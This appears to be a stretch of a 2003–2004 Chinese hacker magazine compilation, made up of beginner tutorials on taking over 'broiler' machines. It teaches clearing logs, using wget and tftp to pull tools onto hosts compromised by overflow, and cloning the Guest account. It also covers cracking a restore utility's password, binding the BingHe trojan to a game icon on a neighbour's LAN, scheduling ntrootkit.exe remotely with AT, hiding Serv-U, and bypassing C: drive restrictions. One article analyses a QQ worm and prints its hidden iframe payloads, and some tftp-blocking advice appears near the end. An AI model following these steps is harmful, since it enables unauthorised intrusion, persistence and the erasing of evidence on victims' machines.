Starting Service "SNMPUC"...

Mission accomplished.
C:\>
```

图7

从名字可看出它是清理日志的小工具。在Win2k/XP/Server2003里都有系统日志，以前在X档案上多次介绍过怎么清理肉鸡日志，不过一般的手工清理较麻烦，不太适合菜鸟。而LogKiller的使用非常简单，只需上传到肉鸡的任意目录下执行即可。

上传方法有TFTP、FTP等。图7是执行LogKiller的结果。执行后看到图7中的结果，就说明清理日志成功。

## 3、Wget

提到这款工具我只能用一个字来表达——“强”！它的最大用途是：可在CMD下使用HTTP协议下载文件。相信许多朋友都碰到过这样的情况，有些IP地址屏蔽了TFTP，不能利用TFTP把文件传到肉鸡上。有了Wget就可在肉鸡的Shell下直接把文件下载到wget的当前文件夹下。

```
C:\>wget.exe http://zhuan.y365.com/down/bits.dll
--22:31:40--  http://zhuan.y365.com/down/bits.dll
           => 'bits.dll'
Connecting to zhuan.y365.com:80... connected!
HTTP request sent, awaiting response....200 OK
Length: 7,123 [text/html]

OK -> .....

22:31:49 (6.79 MB/s) - 'dll' saved [7123/7123]

C:\>wget -d bits.dll
...
HTTP/1.1 404 Not Found
...
[100%]

C:\>dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 1820-1809

 C:\ 的目录

2002-10-06  22:31               7,123 bits.dll
               1 个文件          7,123 字节
               8 个目录      7,582,779,872 可用字节
C:\>
```


假设我想下载 http://zihuan.y365.com/down/bits.dll，直接在shell下输入：wget.exe http://zihuan.y365.com/down/bits/


# 傻瓜黑客

dll

看图8，是不是把bits下载到了C盘？有了它就可在内鸡上疯狂下载了。

## 4. english.exe

相信大家在平时hacking时都碰过一些日本/韩国肉鸡，这些肉鸡在Shell下显示的东西全都是乱码，输入一些命令根本看不出是执行成功还是失败！

我在一次偶然的机会找到了一个小工具——english.exe，再碰到韩国或日本肉鸡时，只要把它传上去执行就OK了！以后执行CMD命令时就会显示英文。图9是我执行后的结果。

```
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-1998 Microsoft Corp.

C:\>net user
\User accounts for \\ZHIZHUWEN
-------------------------------------------------------------------------------
Administrator    Guest            IUSR_ZHIZHUWEN
Lina             zhiHuAn
The command completed successfully.

C:\>
```

图9

## 5. Windows自带工具——Runas.exe

最近发现了用在Win2k以上系统的一个实用命令——Runas。它的作用是：可以系统其他用户权限执行程序或命令。平时渗透时最多碰到的是启动了肉鸡的Telnet，因为NTLM验证需要重新启动自己的计算机，有了这个命令，就可简单的切换运行程序的用户。

假设我开启了一台肉鸡的Telnet服务，并且克隆了肉鸡上的Guest用户，并把密码修改为zHiUAN。但我系统的当前用户是administrator，并不是guest，如果想Telnet到肉鸡，只要在“开始→运行”里输入`runas /user:guest telnet`，然后会提示你输入密码（图10），就输入你系统上guest的密码：zHiUAN，然后再Telnet上去就可以了（图11）。

```
请输入密码 guest:
```

图10

```
Microsoft (R) Windows 2000 (TM) 版本 5.00 (内部版本号 2195)
版权所有 (C)  Microsoft Telnet Client
Telnet Client 内部版本号 5.00.99206.1

Escape 字符为 'CTRL+]'

Microsoft Telnet>
```

图11

这样，你再Telnet时就屏蔽了NTLM验证。

> > 注意
>
> 使用的帐号必须确保用户是在使用状态，待使用的用户是不可以登录的。 Guest 帐号可以在用户组中把禁用来免去。 使用 Telnet 连接远程主机需要远程主机的用户名/密码一致，即要先将本机的 Guest 用户密码和肉鸡的 Guest 用户密码修改成一致才可以。

如果你平时上网时用User权限进入系统，在安装一些软件或启动一些系统服务时用Runas命令就不需要注销或重启系统了，只需执行`runas /user:administrator cmd.exe`。

具体使用时大家再具体试验，我就不多介绍了。以上软件给各位打包放光盘了。有什么问题可来黑客X档案论坛咨询（www.hackerxfiles.net/bbs/）。


# 隔壁局域网造鸡

### 愁种子

大部分网民（甚至包括一些懒惰的网管）都认为内部网络的安全性比互联网强很多，因此防范意识比较薄弱。但话又说回来，这样的网管给了菜鸟们一个练手的机会，我所在的小区就是这种状况，所以特喜欢光顾它。许多机器都装有我的冰河和密码解霸等，当然我只有在极端无聊时才去逛一逛，可不会做坏事。

今天算是个无聊的日子，我又拿出冰河扫描，居然一台也连不上，细查了一遍，原来全被删除了，怎么任务栏上连还原精灵的图标也没了。设法进入C盘后，连还原精灵安装后的文件都找不着，怪不得刚才玩游戏快了很多，看来近段时间网管优化了系统，我的一切杰作都付之东流了。

我不甘心，继续细查，居然他还没安装杀毒软件，怎么连还原精灵也没有了？我想他只是把安装后的文件删除了，因为所有的破解还原精灵软件都需用到“更改密码”那一项。有一次我在家因重装系统而把还原精灵安装后的文件丢失了，结果连卸载都不行，所以现在我的邮箱里还备份有这些文件。马上下载回来，一运行，果然没猜错，任务栏上可爱的图标又出来了，但密码已经改了。

打开Winhex10.0（光盘中有收录）。先不管，用鼠标右键单击右下角的还原精灵图标，点击“设定参数”，点击“更改密码”，出现一对话框，先输入旧密码，我们随便输入（如输入“abc”），然后再输入新密码“dragon”，你也可输入自己定义的密码，然后再确认一次新密码。

点击“确定”后，会出现如下两种情况：

①出现提示框：密码更改成功，请记住新密码。

②出现提示框：旧密码不正确。密码字母必须使用正确的大小写，请确认是否因疏忽而按下了Caps Lock键。

一般出现第一种情况的可能性不大，这儿就不说了。出现第二种情况时，先不要点击“确定”，此时打开Winhex10.0，点击“打开RAM(R)”或双击“Hddgmon”，双击“主要内存”，然后点击“寻找文字”，以查找“dragon”。确定后就搞定了，密码是明文的，就在你查找的字符附近，看到了吗？就是“buzhidao”（图1）！

到此，破解完毕。


图1

# 傻瓜黑客

抱着侥幸的心理试一下过去设的“远程访问”，看看还在不在？打开“网上邻居”，右击我熟悉的 30 号机，选择“属性→工具→远程访问”，输入密码，居然还行（图 2）。

顺便说一下 Win98 下这个不错的连接是如何设置的。

先登陆你的 QQ，左击好友，选择“收发讯息→发送文件给好友”，在“文件名”处输入“C:\Windows”，找到“cotronl.exe”文件，将其复制到 E 盘，双击它就会打开控制面板，之后执行“密码→远程管理”，如图 3。


重复输入你要设的密码即可。我们可不能小看它哦，它的“远程管理”可是名副其实的完全访问权限，现在对方机器上的所有数据都在我的控制之下，我还要利用它把修改过的“传奇”图标将 30 号机上的这个图标替换呢！

既然这样，那就再配置个冰河放上去（连同还原精灵安装后的文件）。这个相信经常看 X 档案的朋友都会，但我还得提醒一下新手，配置时应注意两点：首先要设置一个密码，即访问口令（图 4），不然让别人抢去了可不划算；其次是在“自我保护”中选择关联“文本文件”，以增强可靠性。


好了，现在可以上传了，但怎样才能让它运行呢？毕竟没有 Win2K 的 AT 命令啊！有了，我用文件合并器将冰河服务端和传奇的图标合并，因为这里局域网里几乎个个都是“传奇神”。合并器网上比比皆是，我用的是开山合并器（光盘中有收录），感觉挺好。

其实让它运行的办法还有很多，如利用“计划任务”，先在本机指定一个计划任务让其运行冰河服务端，在 c:\windows\tasks

目录下你会发现多了一个文件，那就是刚刚指定的任务，将其 COPY 到对方的 c:\windows\tasks 目录下，对方就会定时运行你想运行的程序。但对方要开启“计划任务”才行。还有就是在对方的 D 盘根目录建立一个 AutoRun.inf 文件，写入：

```
[AutoRun]
open=程序名
```

但要记住用 attrib +h +s +r 命令给它加上隐藏、系统、只读属性，只要对方打开 D 盘就行了，但也要不禁止这项功能才行。

在“网上邻居”直接用已经合并的冰河图标将对方的图标覆盖，现在就守株待兔了。先不急（此时可不要想当然地用 \CON\CON 让他重启），打开音箱，先听一曲醉人的音乐……

第六感告诉我鱼儿上钩了，赶快连接上去，远程运行还原精灵中的“DDGMon”文件，其任务栏又有那个可爱的图标了，接着“查看屏幕”，居然是在玩传奇。

先给他发去一条“逼真”的信息，如图 5。不管他，强制退出，右击任务栏上还原精灵的图标，选择“还原精灵命令→储存”，如图 6。


其实备份资料还有另一法，右击图标→设置参数→转储资料，但在这时不可用，因为它在重启后还要物理地接触进行选择，你可以试一下。这时选择“是”便自行重启并重新备份资料。

好了，一台肉鸡就这样做成，就这么简单！有问题欢迎来 X 论坛交流（www.hackerxfiles.net/bbs）。


| 黑客X档案 2003 2004合订本(下卷) | 101 |

# 傻瓜黑客

相信大家都对Serv-U很熟悉吧？它是一款非常稳定且非常专业的Ftp Server软件，很多主机都用它来开设FTP服务。本人的肉鸡中90%都安装有Serv-U。在一次偶然中我发现了Serv-U一个鲜为人知的功能——在特殊设置下可实现远程控制。

使用这个功能再也不需以图形界面登陆远程肉鸡后再进行设置Serv-U了，我们可在本地控制肉鸡的Serv-U服务器。现将此方法介绍给大家。


紫幻

## 一、本地安装Serv-U

要想让Serv-U实现控制远程，就必须先在本地也安装一个Serv-U。我安装的是FTP Serv-U 4.1官方正式汉化注册版（光盘中有收录）。Serv-U的安装非常简单，只需一路“NEXT”即可。

## 二、远程主机上的Serv-U设置

想要拥有控制远程目标的Serv-U服务器，首先要在远程主机上做一点小设置。图1是远程Serv-U的界面。


图1

先在远程Serv-U上建立一个用户。方法是：执行“用户→选择鼠标右键→选择新建用户→设置用户名称，密码，设置主目录”……都是向导模式，很简单，我就不详细描述了。

建立好用户后，在“权限”处把此用户设置为“系统管理员”（图2）。

设置好后就一切OK！以下介绍如何实现远程管理。


图2

## 三、实现远程控制

设置好远程Serv-U后，回到本地Serv-U界面。选中第一项“Serv-U服务器”，点鼠标右键，选择“新建服务器（图3）”。


图3

然后在“请输入服务器的IP地址或IP名称”里填入肉鸡的IP地址。我刚才设置的肉鸡IP地址是61.156.xxx.xxx（图4）。


图4

然后点“下一步”，选择端口号。

> > 注意
> 这里的端口号一定要和肉鸡Serv-U的端口号一致，否则不能实现远程控制。刚才我在肉鸡设置的端口号是21，所以这里也要填21端口。

填好端口号后点“下一步”。

请输入服务器描述名称：这里随便命名即可。填完后继续进行“下一步”。

输入用户名称：这里输入的名称要和肉鸡Serv-U的一致。我在肉鸡上设置的用户名为zihuan，所以这里也填zihuan。

> > 注意
> 这个用户一定要有远程主机的“系统管理员”权限，刚才我们在肉鸡上设置的。

填好用户名后继续最后一步：输入用户名、密码。输入刚才设置的密码，我的密码为ziHUAN，写好后点击“完成”。

> > 注意
> 密码也要和远程主机zihuan用户的密码一致。

至此，远程主机和本地Serv-U的设置就全部完成。

## 四、进行连接

做好以上全部设置后，会看到一个新的界面，如图5。

然后双击左面的“远程管理”，Serv-U界面的下方会提示正在连接。不一会就会连接上远程肉鸡的Serv-U服务器。连接速度取决于你的网速，我是ADSL连接，所以速度飞快。图6是连接以后的结果。

连接上以后就等于控制了远程的Serv-U。接下来做什么就不用我多说了吧！加用户，设置权限，管理目录……只要是在远程主机能设置的在这里都可设置。

# 傻瓜黑客


3.通过我细心研究，发现通过这种办法还可以实现种植后门、木马。具体方法是：执行“用户→目录访问→执行权限”。如图7所示。这样设置后就可把木马或后门上传到肉鸡上的FTP目录，留待以后执行。在设置执行权限时会弹出一个警告窗口，不用去理会，只要点“确定”即可。


看了以上内容也可使用，这样在设置Serv-U时就不需在几台主机间走来走去了。

## 存在问题

如果肉鸡本身没有安装Serv-U服务，你给他安装后一定要隐藏Serv-U的安装目录，可使用Attrib命令，该命令用于修改文件属性。参数如下：

- +R：只读
- +S：系统
- +H：隐藏

> 具体请参考X档案2003年7期的《加固你的肉鸡》。

## 远程控制有诀窍

1. 在肉鸡上做主页的广大黑迷可通过Serv-U远程管理来实现管理FTP服务器，不需要先登录肉鸡的图形界面。
2. 由于Serv-U是肉鸡上本身就有的程序，在远程主机设置防火墙规则时一定会允许Serv-U通过，所以用这种办法管理一定不会被防火墙阻挡。

注意：记住删除Serv-U的日志和关闭其日志记录功能，并且选择Serv-U开机时自动加载，这样肉鸡的屏幕决不会显示Serv-U的界面，平时也不占用太大的空间，小心才能驶得万年船。

之所以把这个小命令单独提出来，主要是因为很多初学者掌握AT命令不够熟练，导致远程启动时有失败。

其实，AT命令是在WindowsNT/2000/XP等操作系统中的命令，附属于Task Sheduler服务，就好比Windows9X/ME中的计划任务。AT命令怎么又和入侵防护挂上钩呢？

我们在入侵时经常要启动对方的一些服务，而AT命令正好可以制定某程序或命令在特定的时间自动运行，而且默认运行方式为隐藏。更重要的是，AT命令可操控远程计算机，真是个不错的东东！

## 冰血封情

会计划在本地计算机上运行命令。一般我们写的是远程计算机的IP地址。

id：指定给已计划命令的识别号。可使用AT\IP查询目前序列中每个任务的ID号。

/delete：删除某个已计划的命令。如果省略id，计算机上所有已计划的命令都会被删除。

/yes：不需要进一步确认时，跟删除所有作业的命令一起使用。其实就是自动以yes回答删除所有问题。

time：指定运行命令的时间。注意：这里最容易出问题，一定要使用24小时制，所指定的时间应该是00:00-23:59，如果时间已过，则会在第二天的同一时间运行。

/interactive：允许作业在运行时与当时登录的用户桌面进

## 参数释义

好了，下面我们来看看AT命令的用法吧？

```
AT [\\computername] [id] [/DELETE] | /DELETE [/YES]
AT [\\computername] time [/INTERACTIVE]
    [ /EVERY:date[,...] | /NEXT:date[,...]] "command"
```

好象参数不少哦，给大家解释一下吧！

\\computername：指定远程计算机。如果省略这个参数，

黑客X档案2003 2004年合订本（下）

# 傻瓜黑客

行交互。说的有点专业了，因为AT命令默认是以隐藏方式启动指定程序的，如果加了这个参数，被执行任务的计算机用户就可看见程序的启动。所以在入侵中万万不能加入此参数，除非你想挑衅目标计算机的管理员。

/every:date[,...] 每月或每星期在指定的日期运行命令。如果省略日期，则默认为在每月的本日运行。

/next:date[,...] 指定在下一指定日期（如下周四）运行命令。如果省略日期，则默认为在每月本日运行。用法同上！

"command": 准备运行的Windows NT命令或批处理程序。如果要运行的程序在Windows系统文件夹中，那么直接写名字即可。如果不是，则要键入详细路径，这里必须要写上程序的扩展名。

## 实例讲解

OK！下面我们来看几个实例：

- 1. 让对方计算机在23：40启动事先传上去的c:\winnt\ntrootkit.exe，这里笔者没取得对方的时间，如果时间已过，就会在明天的同一时间执行该任务。

at \\192.168.0.2 23:40 c:\winnt\ntrootkit.exe

新加了一项作业，其作业ID=1。

- 2. 让对方计算机在每周一和周二23：40启动指定的c:\winnt\ntrootkit.exe

at \\192.168.0.2 23:40 /every:一,二 c:\winnt\ntrootkit.exe

新加了一项作业，其作业ID=2。

- 3. 删除对方计算机上ID为1的任务。

at \\192.168.0.2 1 /delete /yes

- 4. 删除对方计算机上所有的任务。

at \\192.168.0.2 /delete

该操作将删除所有已计划的任务作业。

是否继续此操作？(Y/N) [N]:y

至此，AT命令的用法讲解完毕，希望对AT命令不熟练的朋友们多练习。本文如有疏漏，还请高手斧正！

## 病毒盛典

前不久，一朋友打开了别人发过来的网址http://goodgirl.2hu.org，之后QQ便中了病毒，他问其他好友发送消息时也自动加上了这个网址，看来给他发网址的人也中招了(症状和上期雪莲莲的“完全手工剪除QQ的消息尾巴”很相似，读者朋友们可参考一下)。

QQ发消息时附加的消息如下：

> 送你一首歌,http://goodgirl.2hu.org
要听啊！
我跟你说了一天你到底有没有看啊？
我这儿天一直在http://k3b.126.com玩,你也一起来吧：）

此病毒首先利用了IE漏洞，让用户在无意中下载了win.exe，然后自动执行这个文件并生成sendmess.exe。下面我把发现这两个文件的过程告知大家。

sendmess.exe就不说了，中毒后系统进程中会多出这一项，打开进程管理器便一目了然。手动清除病毒时要先结束这个过程，然后到系统的Winnt目录下找到sendmess.exe并删除，同时要在注册表中搜索这个键值并删除，这样在下次启动时系统便不会加载了。


在IE中，我用view-source http://goodgirl.2hu.org打开这个页面的源文件，发现http://goodgirl.2hu.org只是个转向页面，直接用IE打开后会转到http://kafei8.com。

再用view-source http://kafei8.com查看这个页面的源文件，在其中又发现了隐藏页面，部分源文件如下：

```
<iframe frameborder=0 leftmargin=0 marginheight=0 marginwidth=0 scrolling=no src="http://www.hiliao.com/dj/kafei8/sanjipian/sanjipian.htm" topmargin=0 width=0 height=0></iframe>
```

用上面同样的方法查看这个隐藏页面的源文件，其中又包含：

```
<iframe src="http://kafei8.vip.sina.com/sanjipian.mht" width=0 height=0></iframe>
```

再用此方法查看此页面，打开后发现很多地方被加密，但是在开头的地方发现了一个win.exe，接着我用flashget下载了这个文件，地址为：http://kafei8.vip.sina.com/win.exe。

下载后我用WinHex打开，发现里面果然包含了QQ中后附带给别人发送的消息，如图1所示。其中，另外一个地址http://k3b.126.com也是转向http://kafei8.com这个页面的。

| 00000000 | 3C 69 66 72 61 6D 65 20 73 72 63 3D 22 68 74 74 70 3A 2F 2F 67 6F 6F 64 67 69 72 6C 2E 32 68 75 2E 6F 72 67 22 20 77 69 64 74 68 3D 30 20 68 65 69 67 68 74 3D 30 3E 3C 2F 69 66 72 61 6D 65 3E 0D 0A 3C 73 63 72 69 70 74 20 6C 61 6E 67 75 61 67 65 3D 4A 61 76 61 53 63 72 69 70 74 3E 0D 0A 66 75 6E 63 74 69 6F 6E 20 6D 61 6B 65 41 72 72 61 79 28 29 7B 0D 0A 76 61 72 20 61 72 67 73 20 3D 20 6D 61 6B 65 41 72 72 61 79 2E 61 72 67 75 6D 65 6E 74 73 3B 0D 0A 76 61 72 20 72 76 61 6C 20 3D 20 6E 65 77 20 41 72 72 61 79 28 29 3B ... |
| --- | --- |

至此，基本可以确定病毒主程序就是win.exe。之后我用WinHex把所有地址替换为http://yourej.com,然后在自己机器上执行，打开QQ给自己发送几条消息，其中便包含了我修改后的地址（图2）。

此时我的进程里也多了sendmess.exe，用上面提到的方法消除后，QQ便会恢复正常。

现在，我们可以完全确定win.exe就是QQ病毒的主程序，它运行后生成sendmess.exe，并将自身删除（这个删除命令应该是在网页中添加的，因为我在本地修改程序后运行，win.exe还存在，而同学机器病毒里我却没发现这个文件）。

最后，忠告广大网友，对于别人发过来的网址不要随意打开，如果稍微懂一点html，可先查看源文件，确定没问题后再浏览。

（注：win.exe和修改后的rwin.exe都放在光盘中的压缩包里了。另，光盘中还收录有相关软件WinHex。）


# 傻瓜黑客
### 例说C盘碍不着

恋种子

一个系统的核心所在地一般是C盘（大多数系统都安装在C盘）。特别是在网吧，所有管理软件或一些限制软件基本都安装在C盘，包括我们平常要用到的一些系统工具（如Win98中的MSCONFIG.EXE、REGEDIT.EXE；Win2K中的CMD.EXE等）。但不识好歹的网管却极力回避我们，想尽心思去禁止进入C盘。道高一尺，魔高一丈！我这个大菜鸟也学会了一些“笨招”……

先在IE地址栏或资源管理器中输入“C:\”，看看，结果弹出讨厌的对话框（图1）。


惨！难道没有别的办法了吗？仔细想了想，以前好像学过一个“SUBST”命令，先试试它再说！

### 第一招——用DOS下的映射命令SUBST

在“开始”菜单一般不会有进入DOS的快捷方式，所以先在记事本中建立一个*.TXT文件，内容如下：

```
c:\windows\command  //Win98系统
c:\winnt\system32\command  //Win2K系统，可不是CMD.EXE
```

将“保存类型”选为“所有文件”，将其保存为*.BAT文件，然后双击这个*.BAT文件。此时一个可爱的DOS窗口出来了，输入命令subst y: c:\，当然，“y”为你选取的映射硬盘，你可用别的代替（图2）。


回到“我的电脑”中，看看是否多了一个Y盘（图3）？


为以防网管发现，当然要毁尸灭迹了，要取消这个映射时用命令subst y: /d。再回到“我的电脑”看看，“Y盘”不见了！

### 第二招——用桌面上的QQ快捷方式


右击桌面上的QQ快捷方式，选择“属性”，出现图4所示的窗口。发现了吗！在“目标”里显示为：“C:\Program Files\QQ2003\QQ.exe”，将其变为：“C:\Program Files\QQ2003\”。确定后会多出一个名为“腾讯QQ”的文件夹，双击它，按两次向上键就是C盘了。

### 第三招——利用“运行方式”

按住Shift键的同时右击一个文件（如果是Win2K，则不要选取*.EXE文件，你可试试看，会弹出以另一个用户进入的登录框），选择“运行方式”，再选取“其它→文件名”，输入“C:\”，是不是看到了！

### 第三招——利用IE

先打开IE，在“收藏”菜单下双击“链接”，即可进入“C:\Documents and Settings\USER23\Favorites\链接”文件夹。几次“向上”就回到了C盘。

### 第四招——用脚本

在Win98下，在IE地址栏输入“file:///C:/?%20%20%20%20%20%20”即可进入。

### 第五招——利用网上的网络服务

1. 打开你的邮箱，在单击“发新邮件”后，里面会有“附件”选项。单击它，选择“浏览”，在弹出窗口的“文件名”处输入“C:\”，看到的就是C盘下的文件夹了。
2. 登录你的QQ，不是有个“发送文件给好友”吗？单击它，在文件名处输入“C:\”就可以了。

当然，在第三招与第五招中不能直接打开文件，但复制、剪切、删除操作都能执行。

方法还有很多，以上只是我常用的几种。

什么是IIS？

IIS（Internet Information Server，互联网信息服务）是微软推出的一个WEB服务器组件，简单易用，安装、维护方便，广泛使用。它被应用于Windows 2000 Server和Windows NT 4.0 Server中，能够提供各种文件服务，包括WWW、FTP和SMTP等。IIS中比较常用的服务是WWW和FTP。IIS的安全性是个热门话题，这里我们来讨论一下IIS的安全问题。

IIS的组件

IIS包括很多组件，如NNTP Service、SMTP Service、World Wide Web Service、FTP Service等。通常在选择安装IIS时，我们都是选择默认设置。

IIS的安全性

IIS的安全性主要包括：用户账户安全、IIS服务安全、IIS应用程序安全等。

## 再谈 Tftp 的应用

iqst

在《X档案》2003年8期中，欲望之双向大家介绍了Tftp的相关知识和应用，他的侧重点是在肉鸡上安装Tftp服务来传输文件，而本文则侧重于将自己的机器安装成Tftp服务器来进行文件传输，以及一些需要注意的事项。

### 一、Tftp 协议

Tftp（Trivial File Transfer Protocol，简单文件传输协议）是TCP/IP协议族中用来在客户机与服务器之间进行简单文件传输的协议，提供不复杂、开销不大的文件传输服务。Tftp运行在UDP协议之上，提供不可靠的数据报传输服务，不提供存取授权与认证机制，使用超时重传方式来保证数据的到达。


### 二、Tftp 软件

Tftp软件分为服务器端和客户端。我们首先来看服务器端。我们经常使用的Tftp服务器端软件有Cisco Tftp Server和Tftpd32.exe（见图1、2）。双击运行后，你的电脑就成了一个Tftp服务器，无需其它设置。服务器软件所在目录为Tftp服务器的默认根目录，你要把希望传到肉鸡上的工具放在这个根目录下，而你从肉鸡上下载的文件，也会自动放到这个根目录下。我个人推荐使用Cisco Tftp Server作为服务器软件，因为它有日志功能、进度显示，并且比Tftpd32稳定。

Tftp客户端软件是Win2000系统自带的Tftp.exe，你可在system32目录下找到它。使用时直接在cmd中输入tftp命令即可。


图 1


图 2

### 三、Tftp 在入侵中的作用

我们以往传输文件都利用IPC$管道，但一旦IPC$被屏蔽，而且没有其它共享目录，应该怎么传送文件呢？假如我们通过溢出获得了对方的CMD，有没有比Copy命令更便捷的文件传输方式呢？这时最好的答案便是使用Tftp。无论是在肉鸡上安装Tftp服务，还是将自己的电脑建成Tftp服务器，我们都不再需要考虑IPC$的存在与否，也不要任何用户名与口令，只需几步简单操作就可实现文件的传输。因此对Tftp的熟练应用是每个入侵者都应该掌握的。

### 四、Tftp 使用指南

当我们成功溢出且夺到对方的CMD后，如果对方屏蔽了IPC$管道，在这种情况下，我们一般选用Tftp来传输文件。然而，如何使用Tftp命令是最令新手们头疼的问题，因为Tftp命令与我们以往的命令有些不同，容易让人摸不着头脑。不过没关系，跟我来！

假设有这样一个环境：有A，B两台机器，在A上运行了Tftp服务器端软件，如Cisco Tftp Server（运行即可，无需设置），且拥有B机器的shell，比如溢出得到的cmd等，在B上有Tftp客户端软件，即tftp.exe（系统自带）。A，B都在公网上，那么理论上我们可用Tftp服务在A，B之间传送文件。一般情况下，A机器就是你自己的机器，B机器就是你溢出的机器。好了，下面让我们来看看tftp命令：

如果想把文件从A传送到B（实质上是服务器A下载文件），那么可在shell中输入如下命令：

```
tftp -i ip get hack.exe c:\hack.exe
```

其中，“ip”为A的公网IP，“hack.exe”为需要传送的文件；“c:\hack.exe”为目的路径和文件名，如图3。


图 3

1. 命令中的目的路径和程序名不要省略，但目的文件名与源文件名可以不一致；
2. 程序名中的文件扩展名不要省略；
3. 需要传送的文件要与Tftp服务器端软件在同一目录下；
4. 文件上传后自动变为只读属性，若需要删除，先用Attrb -r命令去掉只读属性；
5. 目的文件夹下不能有同名只读属性的文件。同名非只读属性文件将自动覆盖为只读属性。

如果你想把文件从B传送到A（实质是上传文件到服务器A），那么可在shell中输入如下命令：

```
tftp -i ip put hack.exe
```

其中，“ip”为A的公网IP，“hack.exe”为文件名，如图4。


1. 命令中不需实际的路径，因为传送的文件将会被放到A上Tftp服务器端软件所在的目录下；
2. Tftp程序会在B机的当前目录下搜索hack.exe，因此命令中无需添加hack.exe的路径；
3. A上传文件夹下不能有同名只读属性文件。

### 五、Tftp 使用注意事项

1. Tftp服务器端必须在本机上先运行起来，使本机充当Tftp服务器的角色。
2. Tftp服务器软件在文件传输过程中不得关闭，直至文件传送完毕。
3. 要传到肉鸡的文件必须和Tftp服务器软件在同一目录下，文件的默认下载位置也是这个目录。
4. 可以在对方的任何命令行中使用Tftp命令，如浏览器中对方的CMD（U漏洞）、SQLXEC的command输入行等位置。
5. Tftp会自动将传到肉鸡上的文件变为只读属性，但不允许存在同名只读属性的文件。
6. Tftp对从肉鸡下载的文件采用直接覆盖不提示的方式，但根目录下不允许存在同名只读属性的文件。
7. 用Tftp传送文件可能会丢失文件，重传即可，但不宜传输大文件。
8. Tftp服务不能实现与局域网内的文件互传，因为网内机器没有公网IP，Tftp无法识别网内IP。

### 六、解决方法

如果你是网络管理员，那么在绝大多数情况下应该禁止你的机器使用Tftp，以避免入侵者向机器传送文件。

具体方法欲望之翼的那篇文章已经说得很清楚了，如果你没看过那篇文章，我再简单说一下。

Tftp.exe是系统保护文件，无法删除。

1. 使用cacls命令来限制用户对程序的访问，如想禁止Guest对Tftp进行访问，可输入下面的命令：
`c:\>cacls.exe c:\winnt\system32\tftp.exe /d guest`
2. 更改端口配置文件
打开%systemroot%\system32\drivers\etc下的service文件，将“tftp 69/udp”替换为“0/udp”即可，如图5。

| #<service name>  <port>/<protocol>  <aliases> | #<Comments> |
|---|---|
| ftp-data | 20/tcp | #File Transfer [Default Data] |
| ftp-data | 20/udp | #File Transfer [Default Data] |
| ftp | 21/tcp | #File Transfer [Control] |
| ftp | 21/udp | #File Transfer [Control] |
| ssh | 22/tcp | #Secure Shell Login |
| ssh | 22/udp | #Secure Shell Login |
| telnet | 23/tcp |  |
| telnet | 23/udp |  |
| smtp | 25/tcp | mail | #Simple Mail Transfer |
| smtp | 25/udp | mail | #Simple Mail Transfer |
| time | 37/tcp | timserver |  |
| time | 37/udp | timserver |  |
| name | 42/tcp | nameserver | #Host Name Server |
| name | 42/udp | nameserver | #Host Name Server |
| whois | 43/tcp | nicname |  |
| whois | 43/udp | nicname |  |
| domain | 53/tcp | #Domain Name Server |
| domain | 53/udp | #Domain Name Server |
| bootps | 67/tcp | #Bootstrap Protocol Server |
| bootps | 67/udp | #Bootstrap Protocol Server |
| bootpc | 68/tcp | #Bootstrap Protocol Client |
| bootpc | 68/udp | #Bootstrap Protocol Client |
| tftp | 69/tcp | #Trivial File Transfer |
| tftp | 69/udp | #Trivial File Transfer |
| gopher | 70/tcp |  |
| gopher | 70/udp |  |
| finger | 79/tcp |  |
| finger | 79/udp |  |
| http | 80/tcp | www www-http | #World Wide Web HTTP |
| http | 80/udp | www www-http | #World Wide Web HTTP |
| kerberos | 88/tcp | krb5 kerberos-sec | #Kerberos |
| kerberos | 88/udp | krb5 kerberos-sec | #Kerberos |

图 5

好了，关于Tftp的使用就说这么多，不知大家看懂了没有？上面说的笔者都经过了测试，不过能力有限，如有纰漏，还请大家指正！

（本文提到的Cisco Tftp Server和Tftpd32.exe光盘中有收录）

## 菜鸟也玩黑客工具

流光、冰河、NC之类的黑客软件相信大家都如雷贯耳了吧！但“可视化的NC”、CmdLog你又听说过没有呢？这类软件虽名不见经传，但它们的作用一点也不弱！而且当中的大部分软件体积都很小（更易于我们传输），功能专一。最主要的是，这些软件大都是面向新手设计的，操作很简单，可谓是黑软中的“奇门兵器”。下面，笔者就结合实例来介绍一些较经典实用的小程序给大家！

### 1. 让你从 NC 的命令参数中解放——可视化的 NC

顾名思义，此程序乃大名鼎鼎的“瑞士军刀”NC的GUI版本。相信各位菜鸟都曾被命令行版本的NC里各种命令参数搞得头昏脑胀吧（呵呵！其实本人对NC的一些高级应用也不会怎么）！现在好了，有了这个“可视化的NC”，就可从NC的繁琐命令中释放出来。

下面，笔者在本机示范一下，怎么用这个小程序来连接后门程序——WinShell，其它的如监听功能也是大同小异。

首先看图1，是WinShell的设置界面，大家可从这个界面了解一下我对后门的设置。运行了由WinShell生成的后门之后，打开“可视化的NC”，在“目标IP”中输入要连接或监听的IP地址；在“对方端口”输入WinShell后门正在监听的端口（本例是43）；“本地端口”中填写自己计算机监听的端口（开这个端口一般用于反向连接）；最后点击“连接”便可与WinShell后门连接上（图2）。


如果我们要输入DOS命令，则在“发送信息”里输入命令，然后点击“发送上面的信息”按钮即可，结果会在“接受信息”框中显示。例如，在“发送信息”中输入“net user”命令并发送，“接受信息”框便返回图3所示的结果。


图 2


图 3

### 2. 文件传输不用愁——20CN Mini Ftp 服务器

通过入侵找到肉鸡后，在肉鸡上传送各种程序是项必不可少的工作。大多数高手都会使用TFTP来进行文件传输，但TFTP时候不是很稳定。其实，最简单的方法就是把肉鸡变成一台FTP服务器。什么？你说要做FTP服务器？那就要使用Serv-U，太麻烦了吧！呵呵，其实使用“20CN Mini Ftp服务器”就可轻松把肉鸡暂时变成一台FTP服务器，而且完全不需要重新启动等复杂操作，你要做的只是对程序进行几个简单的设置。

例如，我们要把本机做成一 台FTP服务器。运行20CN Mini Ftp服务器后（图4），在“监听端口”中填入进行FTP传输的端口，默认为21；“最大连接”表示服务器允许多人同时连接；“访问目录”其实是用FTP软件连接后所在的目录。软件设置非常简单，其它设置就不多说了。

设置完后，点击“启动服务”按钮，便可用CuteFtp等FTP客户端程序连接了。如要停止服务，按“停止服务”按钮即可，非常方便！


图 4

### 3. 程序种植者——Sched Exec

